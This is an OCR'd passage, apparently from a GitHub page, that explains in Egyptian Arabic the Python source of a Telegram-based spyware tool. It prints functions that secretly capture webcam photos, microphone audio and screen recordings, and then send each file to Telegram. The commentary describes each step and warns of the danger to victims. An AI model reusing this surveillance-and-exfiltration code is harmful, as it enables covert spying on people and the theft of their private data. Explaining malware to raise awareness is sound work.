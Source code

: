 
#### 5. **المراقبة وسرقة البيانات**
```python
def capture_camera():
    cap = cv2.VideoCapture(0)
    ret, frame = cap.read()
    if ret:
        img_path = os.path.join(tempfile.gettempdir(), "camera_capture.jpg")
        cv2.imwrite(img_path, frame)
        send_photo_to_telegram(img_path)
        os.remove(img_path)
        send_to_telegram_split(f"📸 تم التقاط صورة من الكاميرا على {device_name}.")
    else:
        send_to_telegram_split(f"⚠️ فشل في التقاط صورة من الكاميرا على {device_name}.")
    cap.release()

def record_audio(duration=5):
    fs = 44100
    recording = sd.rec(int(duration * fs), samplerate=fs, channels=2)
    sd.wait()
    audio_path = os.path.join(tempfile.gettempdir(), "recording.wav")
    write(audio_path, fs, recording)
    send_audio_to_telegram(audio_path)
    os.remove(audio_path)
    send_to_telegram_split(f"🎤 تم تسجيل الصوت وإرساله من {device_name}.")

def record_screen(duration=10):
    screen_size = pyautogui.size()
    fourcc = cv2.VideoWriter_fourcc(*'XVID')
    video_path = os.path.join(tempfile.gettempdir(), "screen_record.avi")
    out = cv2.VideoWriter(video_path, fourcc, 20.0, (screen_size.width, screen_size.height))
    start_time = time.time()
    while (time.time() - start_time) < duration:
        img = pyautogui.screenshot()
        frame = cv2.cvtColor(np.array(img), cv2.COLOR_RGB2BGR)
        out.write(frame)
    out.release()
    send_video_to_telegram(video_path)
    os.remove(video_path)
    send_to_telegram_split(f"📹 تم تسجيل الشاشة وإرسالها من {device_name}.")
```

- **تصوير الكاميرا**:
  - بيفتح الكاميرا باستخدام `cv2.VideoCapture(0)` (رقم 0 يعني الكاميرا الافتراضية).
  - بياخد صورة واحدة (`frame`)، يحفظها كـ `camera_capture.jpg` في الـ Temp.
  - بيبعت الصورة لتيليجرام، يمسحها، وبيبعت رسالة يقول إنه صوّر.
  - لو الكاميرا مش شغالة، بيبعت رسالة يقول إنه فشل.
- **تسجيل الصوت**:
  - بيستخدم `sounddevice` عشان يسجّل الصوت من الميكروفون لمدة 5 ثواني (أو المدة اللي يختارها).
  - بيحفظ التسجيل كملف WAV إسمه `recording.wav` في الـ Temp.
  - بيبعت الملف لتيليجرام، يمسحه، وبيبعت رسالة يقول إنه سجّل.
- **تسجيل الشاشة**:
  - بياخد حجم الشاشة باستخدام `pyautogui.size()`.
  - بيعمل فيديو AVI باستخدام `cv2.VideoWriter` باسم `screen_record.avi`.
  - كل جزء من الثانية، بياخد سكرين شوت، يحوّلها للصيغة الصحيحة، ويضيفها للفيديو.
  - بيسجّل لمدة 10 ثواني، يبعت الفيديو لتيليجرام، يمسحه، وبيبعت رسالة.
- **ليه خطير؟**:
  - بيقدر يصوّرك وإنت قاعد قدام الكمبيوتر، يسجّل أي مكالمة أو صوت حواليك، ويصوّر شاشتك لو فيها حاجة زي بيانات بنك أو رسايل.
  - كل ده بيروح لتيليجرام، يعني حد غريب بيبقى عنده فيديو بيك وبصوتك.

---